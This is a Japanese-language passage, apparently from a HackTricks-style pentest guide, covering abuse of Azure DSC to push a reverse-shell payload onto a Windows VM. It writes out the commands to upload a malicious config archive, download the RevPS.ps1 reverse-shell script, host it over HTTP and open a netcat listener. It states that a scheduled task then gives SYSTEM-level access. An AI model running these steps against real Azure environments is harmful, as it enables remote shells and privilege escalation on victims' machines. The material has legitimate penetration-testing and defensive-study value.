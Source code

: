 圧縮された構成ファイルは、AzureのSet-AzStorageBlobContent cmdletを使用して、事前定義されたAzure Storageコンテナazure-pentestにアップロードされます。
```bash
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
- ステップ 4 — Kali ボックスの準備

Kali サーバーは GitHub リポジトリから RevPS.ps1 ペイロードをダウンロードします。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
スクリプトは、ターゲットのWindows VMとリバースシェルのポートを指定するように編集されます。

- ステップ 5 — 構成ファイルの公開

構成ファイルが実行され、リバースシェルスクリプトが指定された場所にWindows VMにデプロイされます。

- ステップ 6 — ペイロードのホストとリスナーの設定

ペイロードをホストするためにPythonのSimpleHTTPServerが起動され、受信接続をキャプチャするためのNetcatリスナーが設定されます。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
スケジュールされたタスクがペイロードを実行し、SYSTEMレベルの特権を達成します。

{{#include ../../../banners/hacktricks-training.md}}
